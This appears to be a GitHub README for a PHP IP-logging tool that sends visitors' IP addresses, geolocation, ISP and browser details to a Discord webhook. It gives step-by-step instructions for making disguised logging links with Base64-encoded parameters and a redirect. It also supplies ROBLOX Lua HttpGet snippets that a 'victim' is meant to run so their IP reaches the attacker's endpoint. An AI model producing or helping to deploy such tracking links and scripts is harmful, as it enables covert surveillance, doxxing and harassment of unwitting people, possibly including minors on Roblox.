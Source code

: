 # Webhook-IP-Logger
This is a PHP IP logger I made that sends the IP's to a Discord webhook.  
![Showcase with bot filtering turned off](https://vgy.me/MiiQN2.png)
# Features
- Grabs the IP then gets info about it after that it sends it to a webhook you have entered.  
- Gets Geo Location & ISP aswell as the browser  
- Filters out bots  
- ROBLOX Lua script for it (for exploits that have HttpGet or ROBLOX Studio)  
- My site has a script incase you don't have a site
# How to use without a website
Step 1: Go into the settings of your Discord server, click webhooks and create one then copy the link to it.  
Step 3: Remove https://discordapp.com/api/webhooks/  
Step 3: Encode it in Base64  
Step 5: Add it to the end of https://littest.site/yeet/site.php?h=  
Step 6: [Optional] If you want to redirect to a site add &r= then a website(make sure to encode it in base64)  
**[Example]**  
https://littest.site/yeet/site.php?h=aG9vaw==&r=aHR0cHM6Ly9saXR0ZXN0LnNpdGU=  
**[Base64 Encoding]**  
I would reccomend using this site. https://www.base64encode.org/
# How to use it on ROBLOX
Step 1: Complete the tutorial above on getting an IP logger link, unless you have your own site.  
Step 2: Put the link of the IP logger in between the qoutations. Exploits is for a script that will only work on  
**Note: The victim will need to execute these scripts. Executing this yourself will only get your own IP.**
**[Exploits]**  
```lua
game:HttpGet("Site Here")
```
**[Roblox Studio]**  
```lua
game:GetService("HttpService"):GetAsync("Site Here")
```
**[Example]**  
```lua
game:HttpGet("https://littest.site/yeet/site.php?h=aG9vaw==")```
